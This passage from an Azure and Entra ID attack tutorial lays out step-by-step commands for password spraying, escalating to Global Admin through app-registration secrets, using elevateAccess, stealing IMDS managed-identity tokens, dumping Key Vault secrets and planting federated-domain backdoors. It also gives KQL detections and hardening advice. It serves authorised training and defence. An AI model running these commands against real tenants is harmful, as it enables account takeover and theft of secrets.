  "https://graph.microsoft.com/v1.0/users?\$select=userPrincipalName,id,accountEnabled&\$top=999" | jq -r '.value[].userPrincipalName'
# Privileged directory role holders — go straight for Global Admins:
curl -s -H "Authorization: Bearer $TOKEN" \
  "https://graph.microsoft.com/v1.0/directoryRoles" | jq -r '.value[] | "\(.id)\t\(.displayName)"'
# App registrations & service principals with credentials (privesc fodder, Part 11):
curl -s -H "Authorization: Bearer $TOKEN" \
  "https://graph.microsoft.com/v1.0/applications?\$select=displayName,appId,keyCredentials,passwordCredentials" | jq
```

The high-value questions to answer during enumeration:

| Question | Why it matters | How |
|----------|----------------|-----|
| Who holds Global Admin / Privileged Role Admin? | Ultimate identity targets | `directoryRoles` members |
| Which apps have `Directory.ReadWrite.All` / `RoleManagement.ReadWrite.Directory`? | App-based privesc to GA | app role assignments on SPs |
| Any **dynamic groups** with attribute-based membership? | Self-add via profile attribute | `groups?$filter=groupTypes/any(...)` |
| Which subscriptions am I Contributor/Owner on? | Resource-plane blast radius | `az role assignment list` |
| Any **Automation Accounts / Runbooks / Managed Identities**? | Run-as escalation | `az automation account list` |
| Any readable **Key Vaults**? | Secrets, keys, certs | `az keyvault list` |
| Is **Azure AD Connect** present? | On-prem pivot (Part 12) | look for `Sync_*` accounts, ADConnect VM |

**IR use case:** the exact same enumeration, run by a defender with a compromised account's token, tells you the *blast radius* — what that identity could reach — which is precisely what you report after an incident.

---

## Part 8: Enumerating the Resource Plane — ARM, Storage, and the Metadata Service

The directory plane tells you *who*; the resource plane tells you *what you can run*. If your identity has any Azure RBAC role (even Reader) on a subscription, enumerate ARM.

```bash
az account set --subscription <subId>
az resource list -o table                       # every resource you can see
az vm list -d -o table                          # VMs + power state + public IPs
az storage account list -o table                # storage accounts
az keyvault list -o table                        # vaults (see Part 11 for secret dumping)
az network nsg list -o table                     # network security groups (find open mgmt ports)
az webapp list -o table                          # App Services (often hold connection strings)
```

### Anonymous & public storage

Azure Storage is Microsoft's S3-equivalent and, like S3, is routinely left public. Blob containers set to public allow **anonymous** reads. Enumerate guessable account/container names:

```bash
# MicroBurst blob enumeration — no credentials needed:
Invoke-EnumerateAzureBlobs -Base "contoso" -OutputFile blobs.txt
# Direct anonymous read of a known container:
curl -s "https://contosobackups.blob.core.windows.net/backups?restype=container&comp=list" | xmllint --format -
```

### The Azure Instance Metadata Service (IMDS) — the VM-to-cloud pivot

Just as AWS has IMDS at `169.254.169.254`, Azure VMs expose the **Instance Metadata Service** at the same link-local address. If you get code execution on an Azure VM (via a web vuln, SSRF, or RCE), IMDS hands you the VM's **Managed Identity token** — the VM's own cloud credential.

```bash
# From inside a compromised Azure VM (note the required Metadata header):
curl -s -H "Metadata: true" \
  "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" | jq -r .access_token
# Instance details (region, subscription, resource group, tags — often leak secrets):
curl -s -H "Metadata: true" "http://169.254.169.254/metadata/instance?api-version=2021-02-01" | jq
```

**Security relevance:** that token carries whatever Azure RBAC the VM's managed identity was granted — frequently Contributor on the resource group, sometimes far more. This is the canonical **SSRF-to-cloud-takeover** primitive: an SSRF in a web app running on an Azure VM that lets you hit `169.254.169.254` with the `Metadata: true` header yields a live ARM token. (This is a genuinely bounty-payable class — SSRF reaching IMDS on cloud-hosted targets has paid out repeatedly on HackerOne. Always test SSRF against the metadata endpoint on authorised scope.)



---

## Part 9: Azure RBAC vs Entra Roles in Practice — Reading Effective Permissions

This is the part that trips up everyone, so we make it concrete. You must be able to answer, for any principal: *what can it actually do, on which plane?*

**Entra directory roles** (identity plane) are listed via Graph or `az ad`:

```bash
# Directory roles assigned in the tenant, and their members:
for rid in $(curl -s -H "Authorization: Bearer $TOKEN" https://graph.microsoft.com/v1.0/directoryRoles | jq -r '.value[].id'); do
  name=$(curl -s -H "Authorization: Bearer $TOKEN" "https://graph.microsoft.com/v1.0/directoryRoles/$rid" | jq -r .displayName)
  echo "== $name =="
  curl -s -H "Authorization: Bearer $TOKEN" "https://graph.microsoft.com/v1.0/directoryRoles/$rid/members" | jq -r '.value[].userPrincipalName // .value[].displayName'
done
```

**Azure RBAC roles** (resource plane) are listed with `az role assignment`:

```bash
# Every role assignment in a subscription, with principal + scope:
az role assignment list --all --include-inherited -o table
# Custom roles (often over-permissive) — read their actions:
az role definition list --custom-role-only true --query "[].{name:roleName, actions:permissions[0].actions}" -o json
```

A worked interpretation table for the roles you'll most want:

| Role | Plane | Grants | Escalation angle |
|------|-------|--------|------------------|
| Global Administrator | Entra | Full directory control | `elevateAccess` → root UAA → Owner everywhere |
| Privileged Role Administrator | Entra | Assign any directory role | Grant self Global Admin |
| Application Administrator | Entra | Manage all app credentials | Add secret to a highly-privileged SP → become it |
| User Administrator | Entra | Reset non-admin passwords | Take over accounts (not GA) |
| Owner | Azure RBAC | Full resource control **+ can assign roles** | Grant self more; abuse resources |
| Contributor | Azure RBAC | Manage resources, **cannot assign roles** | Runbook/VM run-command, extract secrets |
| User Access Administrator | Azure RBAC | Assign resource roles | Grant self Owner |
| Reader | Azure RBAC | Read-only | Enumeration only (still valuable) |

The trap: **Contributor cannot grant roles** but **can run code** on resources (VM run-command, Automation Runbooks, Function deploys), and that code runs as a Managed Identity — so Contributor often escalates *through a resource's identity* rather than through role assignment. Hold that thought for Part 11.

---

## Part 10: Hands-On Lab — Spray → Token → Enumerate → Escalate → ARM

This is the fully worked, reproducible lab. Run it **only** against your own Microsoft 365 Developer tenant or an authorised range (AzureGoat/XMGoat/PwnedLabs). Names and GUIDs below are illustrative sample output.

**Scenario:** you're an external attacker with just the target domain `contoso.com`. Goal: reach Owner on a subscription.

### Step 1 — Unauthenticated recon

```powershell
PS> Invoke-AADIntReconAsOutsider -DomainName "contoso.com"
Tenant id:  9188040d-6c67-4c5b-b112-36a304b66dad
Tenant brand: Contoso Corp
contoso.com        Managed
contoso.onmicrosoft.com  Managed
DesktopSSO enabled: True
```

Managed (not federated) — spraying is viable. Build a username list from the `first.last` convention + LinkedIn.

### Step 2 — Validate users, then spray one password

```bash
$ for u in $(cat names.txt); do
    r=$(curl -s -X POST https://login.microsoftonline.com/common/GetCredentialType \
        -H 'Content-Type: application/json' -d "{\"Username\":\"$u@contoso.com\"}" | jq -r .IfExistsResult)
    [ "$r" = "0" ] && echo "$u@contoso.com"
  done | tee valid_users.txt
alice@contoso.com
bob@contoso.com
carol@contoso.com
svc-deploy@contoso.com

$ python3 msolspray.py --userlist valid_users.txt --password 'Contoso@2027'
[*] alice@contoso.com : AADSTS50126 (invalid password)
[*] bob@contoso.com   : AADSTS50076 (MFA required — PASSWORD VALID)
[+] carol@contoso.com : SUCCESS — token issued, no MFA
[*] svc-deploy@...    : AADSTS50126
```

`carol` has a valid password and **no MFA** — that's our foothold. `bob`'s password is also valid but MFA-blocked (a device-code-phish candidate for later).

### Step 3 — Authenticate and grab a token

```bash
$ az login -u carol@contoso.com -p 'Contoso@2027' --allow-no-subscriptions
$ TOKEN=$(az account get-access-token --resource https://graph.microsoft.com --query accessToken -o tsv)
$ az ad signed-in-user show --query userPrincipalName -o tsv
carol@contoso.com
```

### Step 4 — Enumerate with roadrecon + BloodHound

```bash
$ roadrecon auth -u carol@contoso.com -p 'Contoso@2027'
$ roadrecon gather
[+] Dumped 412 users, 88 groups, 37 applications, 41 service principals, 6 CA policies
$ roadrecon gui   # browse relationships at http://127.0.0.1:5000
```

roadrecon shows carol is a member of a **dynamic group** `Dept-Marketing` whose rule is `user.department -eq "Marketing"`, and that group is *Owner* of an Automation Account `auto-mktg`. Also: an app registration `LegacyReports` holds `RoleManagement.ReadWrite.Directory` and carol is listed as an **owner of that app registration**.

### Step 5 — Escalate via app-registration ownership

Because carol *owns* the `LegacyReports` app registration, she can add a new client secret to it, then authenticate *as that service principal*, which holds `RoleManagement.ReadWrite.Directory` — enough to grant herself Global Admin.

```bash
# Add a fresh secret to an app registration you own:
$ APPID=$(az ad app list --display-name LegacyReports --query '[0].appId' -o tsv)
$ az ad app credential reset --id "$APPID" --append --years 1
{ "appId":"1111...","password":"S3cr3t~generated","tenant":"9188..." }

# Log in AS the service principal (identity plane, high privilege):
$ az login --service-principal -u 1111... -p 'S3cr3t~generated' --tenant 9188... --allow-no-subscriptions
$ SPTOKEN=$(az account get-access-token --resource https://graph.microsoft.com --query accessToken -o tsv)

# Grant our user the Global Administrator role via Graph:
$ GA_ROLE=$(curl -s -H "Authorization: Bearer $SPTOKEN" \
   "https://graph.microsoft.com/v1.0/directoryRoles?\$filter=displayName eq 'Global Administrator'" | jq -r '.value[0].id')
$ curl -s -X POST -H "Authorization: Bearer $SPTOKEN" -H "Content-Type: application/json" \
   "https://graph.microsoft.com/v1.0/directoryRoles/$GA_ROLE/members/\$ref" \
   -d "{\"@odata.id\":\"https://graph.microsoft.com/v1.0/directoryObjects/$(az ad signed-in-user show --query id -o tsv)\"}"
# 204 No Content → carol is now Global Administrator.
```

### Step 6 — Cross the plane: Global Admin → Owner of all subscriptions

```bash
# As Global Admin, flip the elevateAccess toggle → User Access Administrator at root:
$ ARM=$(az account get-access-token --resource https://management.azure.com --query accessToken -o tsv)
$ curl -s -X POST -H "Authorization: Bearer $ARM" \
   "https://management.azure.com/providers/Microsoft.Authorization/elevateAccess?api-version=2016-07-01"
# Now assign ourselves Owner on the target subscription:
$ az role assignment create --assignee carol@contoso.com --role Owner --scope /subscriptions/<subId>
```

Full chain: **domain name → valid users → spray → carol → app-owner secret → Global Admin → elevateAccess → Owner of the subscription.** That is a complete tenant takeover, and every hop maps to a distinct detection opportunity in Part 13.



---

## Part 11: Privilege Escalation Paths — The Catalogue

The lab showed one path (app-registration ownership). Here is the broader catalogue every Azure operator should know. Each is a *primitive* — a specific misconfiguration that lets a lower-privileged identity reach a higher one.

### 11.1 Directory-plane escalations

- **Application/Cloud Application Administrator → any SP.** These roles can add credentials (secrets/certs) to *any* service principal. Find an SP with `RoleManagement.ReadWrite.Directory`, `AppRoleAssignment.ReadWrite.All`, or `Directory.ReadWrite.All`, add a secret, log in as it, grant yourself GA. (This is the lab's path, generalised.)
- **Privileged Authentication Administrator.** Can reset the MFA/credentials of *any* user including Global Admins — a direct path to hijacking a GA account.
- **Owner of an app registration** (not a role, an object-level permission). Same as Application Admin but scoped to that one app — and app owners are rarely audited.
- **Group ownership / self-service group membership.** If you *own* a group that holds a privileged role or a resource role, add yourself to it.
- **Dynamic group membership injection.** A dynamic group with a rule like `user.department -eq "IT-Admins"` grants membership to anyone who can set that attribute on their own profile. If you (or an admin role like User Administrator) can edit `department`, `otherMails`, etc., you can *self-provision* into a privileged dynamic group.

```bash
# Find dynamic groups and read their membership rules:
curl -s -H "Authorization: Bearer $TOKEN" \
  "https://graph.microsoft.com/v1.0/groups?\$filter=groupTypes/any(c:c eq 'DynamicMembership')&\$select=displayName,membershipRule" | jq -r '.value[] | "\(.displayName): \(.membershipRule)"'
```

### 11.2 Resource-plane escalations (Contributor and friends)

The theme: **Contributor can run code, and code runs as a Managed Identity that may be more privileged than you.**

- **Automation Account Run-As / Managed Identity.** An Automation Account often has a system-assigned Managed Identity with Contributor or Owner. As a Contributor you can create/edit a **Runbook** and execute arbitrary PowerShell *as that identity*:

```powershell
# MicroBurst: dump Automation Account Run-As certs & connections, or add a malicious runbook:
Get-AzPasswords -Verbose        # harvests Automation creds, Key Vault secrets, App Service configs, etc.
```

- **VM Run-Command.** Contributor on a VM can push commands that run as SYSTEM/root on the VM — and then hit IMDS to steal the VM's Managed Identity token (Part 8):

```bash
az vm run-command invoke -g web-rg -n webvm01 --command-id RunShellScript \
  --scripts "curl -s -H 'Metadata:true' 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/'"
```

- **Key Vault access-policy / RBAC.** If you can read a Key Vault (via access policy *or* the `Key Vault Secrets User` RBAC role), dump its secrets — which are frequently the passwords/connection strings that unlock the rest of the estate:

```bash
az keyvault secret list --vault-name contoso-kv -o table
az keyvault secret show --vault-name contoso-kv -n sql-admin-password --query value -o tsv
```

- **Deployment history & templates.** ARM deployment history often contains plaintext parameters (passwords) that were passed at deploy time:

```bash
az deployment group list -g web-rg --query "[].name" -o tsv
az deployment group show -g web-rg -n <deployName> --query properties.parameters
```



**Red team usage:** on a real engagement the resource-plane path (Contributor → Automation/Run-Command → Managed Identity → Owner) is often *quieter* than the directory-plane path, because role assignments (GA grants) are heavily monitored while runbook edits sometimes aren't. Choose based on the target's logging maturity.

---

## Part 12: Lateral Movement, On-Prem Pivot, and Persistence

### 12.1 Entra ↔ ARM ↔ on-prem AD

The three planes connect in ways that let you pivot in surprising directions:

- **Cloud → on-prem via Azure AD Connect.** `Azure AD Connect` syncs on-prem AD into Entra using a highly-privileged on-prem account (`MSOL_*`) and a cloud sync account (`Sync_*`). The `MSOL_` account typically has **DCSync** rights on-prem. If you compromise the Azure AD Connect *server* (often a plain domain-joined Windows box), **AADInternals** can extract those credentials and pivot straight into on-prem Domain Admin:

```powershell
# On a compromised AAD Connect server:
Get-AADIntSyncCredentials      # reveals MSOL_ (on-prem, DCSync) + Sync_ (cloud) creds
```

- **On-prem → cloud via Password Hash Sync / PTA / Seamless SSO.** If PHS is enabled, the on-prem DC holds material to impersonate cloud users; **Seamless SSO** uses a computer account `AZUREADSSOACC$` whose Kerberos key, if extracted, enables **Silver Ticket**-style forging of cloud SSO. AADInternals automates these.

- **Golden SAML (federated tenants).** If the tenant is *federated* (Part 3 recon showed an ADFS `AuthURL`), stealing the ADFS token-signing certificate lets you **forge SAML tokens for any user, bypassing MFA entirely** — the cloud equivalent of a Golden Ticket. This was the core of the SolarWinds/Nobelium tradecraft.



### 12.2 Persistence

Once you have privilege, persistence in Entra is about surviving password resets and blending in:

| Technique | What it does | Survives password reset? |
|-----------|--------------|--------------------------|
| **Add credential to an SP/app** | New secret/cert on a privileged app you can auth as | Yes (independent of user) |
| **Register attacker MFA method** | Add your own authenticator/phone to a victim | Yes |
| **Create a hidden Global Admin / add to role** | Backdoor admin account | Until removed |
| **Federated backdoor domain (AADInternals `ConvertTo-AADIntBackdoor`)** | Add a fake federated domain so you can forge tokens for any user | Yes — very stealthy |
| **Administrative Unit + scoped role** | A helpdesk-looking scoped admin that's easy to miss | Until removed |
| **Illicit consent refresh token** | FOCI refresh token for a user's mailbox/files | Until session revoked |
| **Guest invitation to attacker tenant** | Cross-tenant foothold | Yes |

```powershell
# AADInternals federated-domain backdoor (lab only) — forge tokens for ANY user afterwards:
ConvertTo-AADIntBackdoor -DomainName "backdoor.contoso.com"
Open-AADIntOffice365Portal -UserName "admin@contoso.com" -Issuer <issuer> -UseBuiltInCertificate
```

**Blue team note:** the federated-backdoor and "new SP credential" techniques are the two most commonly missed by defenders; both have precise audit signatures (Part 13). The federated-domain trick in particular maps directly to real APT tradecraft, so hunt for unexpected `Set domain authentication` events.

---

## Part 13: Detection & Defense Angle

This is the one consolidated defensive part. Everything above generates signals; here's how a defender catches each stage and hardens against it. Entra's primary telemetry lives in **Microsoft Entra sign-in logs**, **audit logs**, **Identity Protection risk detections**, **Microsoft Defender for Identity (MDI)** for the on-prem/hybrid side, and **Microsoft Defender for Cloud** / **Azure Activity Log** for the resource plane. Stream all of it to a SIEM (Microsoft Sentinel or otherwise) via a Log Analytics workspace / diagnostic settings.

### Detection by attack stage

| Attack stage | Signal / log | KQL / hunt idea |
|--------------|--------------|-----------------|
| Unauthenticated recon | *None in tenant logs* | Not directly detectable — assume it happened |
| User enumeration | Sometimes none (GetCredentialType is pre-auth) | Rate-limit at perimeter; enable Smart Lockout |
| Password spray | `SigninLogs` many `resultType 50126/50053` from one IP | see KQL below |
| Success after spray | `SigninLogs` `resultType 0` from new IP/ASN | Impossible-travel / unfamiliar-location risk |
| Device-code phish | `SigninLogs` `authenticationProtocol == "deviceCode"` | alert on deviceCode from non-service accounts |
| Illicit consent | `AuditLogs` `Consent to application` / `Add app role assignment` | alert on new consents to non-verified publishers |
| App credential added | `AuditLogs` `Update application – Certificates and secrets management` | alert on any `Add service principal credentials` |
| Role assignment (GA) | `AuditLogs` `Add member to role` (Global Administrator) | high-severity alert always |
| elevateAccess | `AzureActivity` `Microsoft.Authorization/elevateAccess/action` | critical — should essentially never fire |
| Runbook/Run-Command | `AzureActivity` `runCommands` / Automation job created | correlate with Managed Identity token use |

A password-spray hunt in KQL (Microsoft Sentinel):

```kusto
SigninLogs
| where TimeGenerated > ago(1h)
| where ResultType in ("50126","50053","50055","50076")
| summarize Attempts=count(), Users=dcount(UserPrincipalName),
            codes=make_set(ResultType) by IPAddress, AppDisplayName
| where Users > 10 and Attempts > 20
| sort by Users desc
```

Detect the elevateAccess crossing (this should be near-zero in a healthy tenant):

```kusto
AzureActivity
| where OperationNameValue == "MICROSOFT.AUTHORIZATION/ELEVATEACCESS/ACTION"
| project TimeGenerated, Caller, CallerIpAddress, ActivityStatusValue
```

Detect new secrets added to service principals (the app-credential persistence/escalation):

```kusto
AuditLogs
| where OperationName in ("Add service principal credentials","Update application – Certificates and secrets management")
| extend Actor = tostring(InitiatedBy.user.userPrincipalName)
| project TimeGenerated, Actor, TargetResources
```

### Hardening — the controls that break the chapter's chains

1. **Enforce phishing-resistant MFA for everyone**, especially all admins — this kills the "password-valid, no-MFA" foothold. Prefer FIDO2/passkeys or Windows Hello over SMS/push (push enables MFA-fatigue).
2. **Conditional Access:** block legacy authentication, block or restrict the **device-code flow**, require compliant/hybrid-joined devices for admin roles, and use named-location/risk-based policies. This is the single highest-leverage control.
3. **Restrict user consent** to verified publishers and low-impact permissions; require admin consent for anything that reads mail/files/directory. Kills illicit-consent phishing.
4. **Privileged Identity Management (PIM):** make Global Admin and other tier-0 roles *eligible*, not permanent — just-in-time activation with approval and justification shrinks the standing attack surface.
5. **Protect the identity-to-resource bridge:** monitor and alarm on `elevateAccess`; keep Global Admins out of subscription Owner unless truly needed.
6. **Lock down the hybrid seam:** treat the Azure AD Connect server and any ADFS box as **Tier 0** (domain-controller-equivalent) assets; deploy MDI to catch DCSync from the `MSOL_` account and Golden SAML forgery.
7. **Smart Lockout + Identity Protection** risk policies to auto-remediate risky sign-ins (force MFA / block).
8. **Revoke properly after compromise:** resetting a password does *not* kill refresh tokens/PRTs — you must revoke sessions (`Revoke-MgUserSignInSession`) and, ideally, rotate/relimit the affected app credentials.

**Purple-team tie-in:** run each Part 10/11 primitive in a lab tenant and confirm the corresponding query fires — that closed loop (attack → log → detection → tune) is exactly what a purple-team Azure exercise delivers.

---

## Part 14: Final Revision / Summary

- **Azure is an identity problem.** The centre of gravity is **Entra ID** (formerly Azure AD). Compromising identity usually yields everything downstream.
- **Two planes, two authorization systems.** *Entra directory roles* (Global Admin, App Admin…) govern `graph.microsoft.com`; *Azure RBAC roles* (Owner, Contributor…) govern `management.azure.com`. They're bridged only by the **elevateAccess** toggle. Always know which plane your token is for (`aud` claim).
- **Everything is a token.** Access tokens (short JWTs), refresh tokens (long, FOCI-pivotable), and PRTs (device-bound crown jewels). One phished FOCI refresh token opens Graph, ARM, Outlook, Teams.
- **Recon is largely unauthenticated:** OpenID config → tenant ID; GetUserRealm → federation; AADInternals `ReconAsOutsider` → the whole tenant map; GetCredentialType → valid users — all invisible to sign-in logs.
- **Initial access:** password spray (read the AADSTS codes — many secretly confirm a valid password), illicit consent grant, and device-code phishing (victim satisfies their own MFA).
- **Post-compromise:** enumerate both planes (roadrecon/AzureHound for graphable attack paths; `az` for ARM), then escalate via app-credential abuse, dynamic-group injection, Automation/Run-Command Managed Identities, or Key Vault secrets.
- **Pivots:** Global Admin → elevateAccess → Owner; Contributor → runbook/IMDS → Managed Identity; and the hybrid seam (AAD Connect `MSOL_` DCSync, Seamless SSO, Golden SAML) bridges cloud and on-prem in both directions.
- **Persistence** that survives password resets: SP credentials, federated-domain backdoors, attacker MFA methods, administrative units, guest invites.
- **Defense** centres on phishing-resistant MFA, Conditional Access (block legacy + device-code), consent restriction, PIM/JIT, elevateAccess alarming, treating AAD Connect/ADFS as Tier 0, and *revoking sessions* (not just passwords) after compromise.

---

## Part 15: Cheat Sheet / Quick Reference

**Unauthenticated recon**

```bash
curl -s "https://login.microsoftonline.com/DOMAIN/.well-known/openid-configuration" | jq -r .issuer   # tenant ID
curl -s "https://login.microsoftonline.com/getuserrealm.srf?login=user@DOMAIN&xml=1"                    # federation
```
```powershell
Invoke-AADIntReconAsOutsider -DomainName DOMAIN     # full tenant map (AADInternals)
```

**User validation & spray**

```bash
curl -s -X POST https://login.microsoftonline.com/common/GetCredentialType -H 'Content-Type: application/json' -d '{"Username":"u@DOMAIN"}' | jq .IfExistsResult   # 0=exists
python3 msolspray.py --userlist users.txt --password 'One@Password'   # one pw per run!
```

**Auth & token extraction**

```bash
az login -u USER -p PASS --allow-no-subscriptions
az login --service-principal -u APPID -p SECRET --tenant TID
az login --use-device-code
az account get-access-token --resource https://graph.microsoft.com --query accessToken -o tsv   # Graph token
az account get-access-token --resource https://management.azure.com --query accessToken -o tsv  # ARM token
```

**Enumeration**

```bash
az account list -o table                      # subscriptions
az role assignment list --all -o table        # Azure RBAC
az resource list -o table; az vm list -d -o table; az keyvault list -o table
roadrecon auth -u USER -p PASS && roadrecon gather && roadrecon gui   # directory dump
./azurehound -u USER -p PASS -t DOMAIN list -o out.json               # BloodHound
```

**Escalation primitives**

```bash
az ad app credential reset --id APPID --append          # add secret to app you own → auth as SP
az vm run-command invoke -g RG -n VM --command-id RunShellScript --scripts "..."   # code as VM MI
az keyvault secret list --vault-name KV -o table         # dump vault secrets
curl -s -X POST -H "Authorization: Bearer $ARM" "https://management.azure.com/providers/Microsoft.Authorization/elevateAccess?api-version=2016-07-01"   # GA→root UAA
```
```powershell
Get-AzPasswords            # MicroBurst: harvest Automation/KeyVault/App secrets
Get-AADIntSyncCredentials  # AADInternals: pull MSOL_/Sync_ from AAD Connect
```

**IMDS on a compromised Azure VM**

```bash
curl -s -H "Metadata: true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" | jq -r .access_token
```

**Key AADSTS codes:** `0`=success · `50126`=bad pw · `50053`=locked · `50055`=pw expired (valid!) · `50076`=MFA required (valid pw!) · `50158`/`53003`=CA blocked (valid pw!) · `50034`=no such user.

**Well-known FOCI client IDs:** Azure CLI `04b07795-8ddb-461a-bbee-02f9e1bf7b46` · Azure PowerShell `1950a258-227b-4e31-a9cf-717495945fc2` · Microsoft Office `d3590ed6-52b3-4102-aeff-aad2292ab01c`.

---

## Part 16: Common Pitfalls

- **Grabbing the wrong-audience token.** A Graph token won't list VMs; an ARM token won't read the directory. Check the `aud` claim before you conclude "there's nothing here."
- **Spraying a wordlist per user.** That locks out accounts, trips Smart Lockout, and lights up the SIEM. One password across all users per run, then wait out the lockout window.
- **Ignoring the AADSTS code.** `50076`/`50158`/`53003`/`50055` all mean the *password is correct* — those are your device-code-phish and SSPR targets, not failures.
- **Confusing Global Admin with subscription Owner.** GA ≠ Owner. Without `elevateAccess`, a fresh Global Admin controls identity but owns zero resources.
- **Resetting a password and assuming you're safe (defender) / locked out (attacker).** Refresh tokens and PRTs survive password resets until sessions are revoked.
- **Forgetting the `Metadata: true` header on IMDS.** Azure IMDS *requires* it; without the header the request is refused. (This anti-SSRF header is also why some naive SSRFs fail against Azure.)
- **Testing against a real tenant.** Everything here is authorised-only. Use an M365 Developer tenant or a purpose-built range; unauthorised spraying/phishing is a crime.
- **Assuming guests are harmless.** Guest (B2B) accounts frequently read far more of the directory than expected — enumerate as a guest before dismissing that access.

---

## Part 17: Practice Labs & Resources

Train these exact skills on authorised targets:

- **PwnedLabs — "Enter the Cloud" / Azure paths.** Free, browser-based labs that walk the recon → spray → token → escalate chain against Azure and Entra.
- **XMGoat** (github.com/XMCyber/XMGoat) — a deliberately vulnerable Azure environment (Terraform-deployed) built specifically around Entra/Azure privilege-escalation *paths*; ideal for practising Part 11.
- **AzureGoat** (INE/ine-labs) — OWASP-style vulnerable Azure app + infra covering IMDS/SSRF, storage, Automation, Key Vault.
- **PurpleCloud** (github.com/iknowjason/PurpleCloud) — deploy a full hybrid Azure + on-prem AD lab to practise the AAD Connect / Seamless SSO / Golden SAML pivots in Part 12.
- **BloodHound CE + AzureHound sample data** — import and run the built-in Azure attack-path queries ("Shortest paths to Global Admin", "Azure subscriptions").
- **Microsoft 365 Developer Program tenant** — your own free tenant to safely run AADInternals, roadrecon, TokenTactics and Conditional Access experiments end to end.
- **AADInternals playbook** (aadinternals.com) and **ROADtools** wiki — authoritative references for the token and directory tradecraft here.
- **MITRE ATT&CK — Cloud (Azure AD / Office 365) matrix** — map every technique above to its ATT&CK ID for reporting and detection coverage.

Practice questions:

1. You spray a tenant and one account returns `AADSTS50076`. What does that tell you, and what two initial-access techniques does it make that account a candidate for?
2. You have a `graph.microsoft.com` token but `az vm list` returns nothing. Give two distinct reasons and how you'd confirm which applies.
3. A compromised user *owns* an app registration that holds `RoleManagement.ReadWrite.Directory`. Write the sequence of steps (and the specific `az`/Graph calls) to reach Global Administrator.
4. Explain, with the specific ARM operation name, how a Global Administrator becomes Owner of every subscription, and the one KQL query a defender would use to catch it.
5. On a compromised Azure VM you find an SSRF in a web app. Give the exact request (including the mandatory header) to steal the VM's Managed Identity ARM token, and name the RBAC that determines your resulting blast radius.

Work each one until you can do it without notes. The next chapter moves from Azure's identity plane to **Google Cloud (GCP) security essentials and enumeration**, where the model shifts again — projects, service accounts, and OAuth scopes replace tenants, SPs and Entra roles.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/cloud-security/04-azure-and-entra-id-azure-ad-attacks), with comments and the latest edits.*
